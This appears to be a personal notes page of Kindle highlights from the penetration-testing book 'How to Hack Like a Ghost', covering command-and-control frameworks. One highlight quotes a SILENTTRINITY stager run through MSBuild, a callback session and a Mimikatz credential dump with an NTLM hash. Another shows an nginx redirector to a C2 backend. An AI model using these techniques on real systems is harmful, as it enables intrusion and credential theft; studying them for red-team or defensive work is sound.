 title:: Document/How to Hack Like a Ghost
author:: [[@Sparc Flow]]
abbreviated-title:: How to Hack Like a Ghost 
cover:: ![Image](https://m.media-amazon.com/images/I/814wrSxBBwL._SY160.jpg)
full-title:: How to Hack Like a Ghost
start:: [[Oct 24th, 2023]]
end:: Unfinished
status:: Reading
document_type::
- Highlights
	- ```you have a new C2 backend running with the exact same configuration. Achieving this level of automation is not a whimsical way to try out the trendiest tools and programming techniques. The easier it is to spring``` ([Location 699](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=699))
	- ```community, read Permanent Record, by Edward Snowden (Macmillan, 2019). Search for darkAudax’s tutorial``` ([Location 706](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=706))
	- ```use a classic find command to hunt for source code files containing these strings and pipe them into xargs, which will call sed to replace these suspicious terms with``` ([Location 772](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=772))
	- ```compile an agent in the output folder that we will later drop on a Windows test machine: root@Lab:~/# make agent-windows``` ([Location 781](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=781))
	- ```(a Microsoft utility to register DLLs in the Windows Registry so they can be called by other programs; it can be used to trick DLLs like srcobj.dll into executing commands), mshta (a Microsoft utility that executes HTML Applications,``` ([Location 804](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=804))
	- ```with the command use implant/, from dumping passwords with Mimikatz to pivoting to other machines. If you’re familiar with Empire, then you will feel right at home with Koadic.``` ([Location 835](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=835))
	- ```perfectly safe-looking evil bombshells. The tool’s serverside requires Python 3.7, so make sure to have Python properly working``` ([Location 857](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=857))
	- ```payloads, and so on, which is very useful in team operations. You need to leave the server running in the first terminal and then open a second to connect to``` ([Location 865](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=865))
	- ```[1] ST (stagers) >> generate customListener [+] Generated stager to ./stager.xml If we take a closer look at the stager.xml file, we can see it embeds a base64-encoded version of an executable called naga.exe (SILENTTRINITY/core/teamserver/data/naga.exe), which connects back to the listener we set up and then downloads a ZIP file containing Boo-Lang DLLs and a script to bootstrap the environment. Once we compile and run this payload on the fly using MSBuild, we will have a full Boo environment running on the target’s machine, ready to execute whatever shady payload we send its way: # Start agent PS C:\> C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe stager.xml [*] [TS-vrFt3] Sending stage (569057 bytes) ->  192.168.1.30... [*] [TS-vrFt3] New session 36e7f9e3-13e4-4fa1-9266-89d95612eebc connected! (192.168.1.30) [1] ST (listeners)(https) >> sessions [1] ST (sessions) >> list Name           >> User         >> Address     >> Last Checkin 36e7f9e3-13... >> *wk_adm@PIANO>> 192.168.1.3 >> h 00 m 00 s 04 Notice how, unlike with the other two frameworks, we did not bother customizing the payload to evade Windows Defender. It just works . . . for now! We can deliver any of the current 69 post-exploitation modules, from loading an arbitrary assembly (.NET executable) in memory to regular Active Directory reconnaissance and credential dumping: [1] ST (sessions) >> modules [1] ST (modules) >> use boo/mimikatz [1] ST (modules)(boo/mimikatz) >> run all [*] [TS-7fhpY] 36e7f9e3-13e4-4fa1-9266-89d95612eebc returned job result (id: zpqY2hqD1l) [+] Running in high integrity process--snip-- msv : [00000003] Primary * Username : wkadmin    * Domain   : PIANO.LOCAL * NTLM     : adefd76971f37458b6c3b061f30e3c42--snip-- The project is still very young, yet it displays tremendous potential. If you are a complete beginner, though, you may suffer from the lack of documentation and explicit error handling. The tool is still in``` ([Location 875](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=875))
	- ```the tooling necessary to faithfully reproduce and automate almost every painful aspect of the manual setup. We’ll stick with``` ([Location 910](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=910))
	- ```index index.html; server_name www.mydomain.com; # return 404 if no file or directory match location / { try_files $uri $uri/ =404; } # /msf URL gets redirected to our backend C2 framework location /msf { proxy_pass https://192.168.1.29:8443; proxy_ssl_verify off; proxy_set_header Host $host; proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;``` ([Location 925](https://readwise.io/to_kindle?action=open&asin=B08FH9SQNG&location=925))